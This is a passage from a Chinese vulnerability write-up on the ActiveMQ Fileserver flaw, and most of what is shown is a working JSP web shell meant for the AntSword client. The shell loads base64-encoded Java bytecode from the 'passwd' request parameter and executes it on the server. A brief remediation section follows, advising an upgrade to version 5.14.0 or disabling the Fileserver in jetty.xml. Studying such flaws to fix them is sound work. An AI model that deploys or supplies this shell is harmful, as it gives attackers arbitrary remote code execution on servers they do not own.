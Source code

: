 蚁剑连接：
```javascript
<%!
class U extends ClassLoader {
U(ClassLoader c) {
super(c);
}
public Class g(byte[] b) {
return super.defineClass(b, 0, b.length);
}
}
 
public byte[] base64Decode(String str) throws Exception {
try {
Class clazz = Class.forName("sun.misc.BASE64Decoder");
return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
} catch (Exception e) {
Class clazz = Class.forName("java.util.Base64");
Object decoder = clazz.getMethod("getDecoder").invoke(null);
return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
}
}
%>
<%
String cls = request.getParameter("passwd");
if (cls != null) {
new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
}
%>
```


# 0X06 解决方案
1、ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本。<br />2、通过移除 conf\jetty.xml 的以下配置来禁用 ActiveMQ Fileserver 功能
